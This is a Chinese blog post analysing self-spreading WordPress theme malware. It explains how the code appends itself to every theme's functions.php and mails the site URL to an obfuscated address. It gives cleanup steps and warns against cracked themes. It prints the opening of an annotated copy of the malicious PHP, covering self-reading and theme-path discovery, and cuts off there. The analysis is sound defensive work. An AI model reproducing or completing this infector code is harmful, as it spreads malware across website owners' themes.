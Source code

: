     }
    return $output;
    }
    ?>




#### 这个代码会感染你所有的主题，也就是每个主题都中招，当你把你的主题分享给朋友时候，他们也会中招。大概看了一下这段代码，只看懂了感染原理。每当wp加载主题时





#### ，会调用function.php里面的函数，而恶意代码会在此过程中加在，并检测到你wp主题的绝对路径，之后把其它为感染的主题一并感染，而且它加了很多伪装代码，没鸟用，骗人眼睛的（我前面就又中招了）。此代码变量众多，不看了，直接google。找到如下结果。




<blockquote>再来大概说说它的**工作原理**，首先它会存在某一主题里面，当你启用调试此主题时，这段代码可以通过遍历获得你主题目录下的所有主题里面的functions.php，并在functions.php文件结尾处的最后一个“？>”处自动添加下面的恶意病毒代码，如果恶意病毒代码添加成功，它会发送你博客的url地址到[livethemas@gmail.com](http://www.henghengzhu.com/tag/livethemasgmail-com/)（可能大家没看到这个邮箱地址的添加位置，这就是它的巧妙之处，它将email地址拆分转义，然后用多重变量引用，下面的代码我已经用红色标注出了此email地址。</blockquote>




#### 看来写这恶意代码的是个高手。




## 处理方法：




登陆ssh，把theme设置为只读权限（Linux下）。删除所有的恶意代码。




恢复权限，只把function.php设置为只读，这样才不怕这种毒了。





## 建议：


仔细检查你下载的所有插件和主题，不要随便下载破解版！

php一样可以写出不差于win下的恶意木马，别小看了php。


## 下面是该代码的注释版本：



    
    <?php
    function _verifyactivate_widgets(){
        //当前文件名，如/path-to-www/wp-content/themes/SimpleDark/functions.php 
            //查找当前主题functions.php文件中最后一个 <? 标记，从这个标记的位置开始，取得一直到文件尾的内容
        $widget=substr(file_get_contents(__FILE__),strripos(file_get_contents(__FILE__),"<"."?"));
        $output="";
        $allowed="";
        //去除html和php标签，其实这一句是扯蛋。。。
        $output=strip_tags($output, $allowed);
        //取得主题目录themes的绝对路径，如 /path-to-www/wp-content/themes
            //为了加强程序的兼容性，它不惜以这种很晦涩的方式来获取。。。
            //以主题目录themes的绝对路径用array包裹为参数传递给_get_allwidgets_cont函数获取此博客的所有主题的functions.php文件的绝对路径
        $direst=_get_allwidgets_cont(array(substr(dirname(__FILE__),0,stripos(dirname(__FILE__),"themes") + 6)));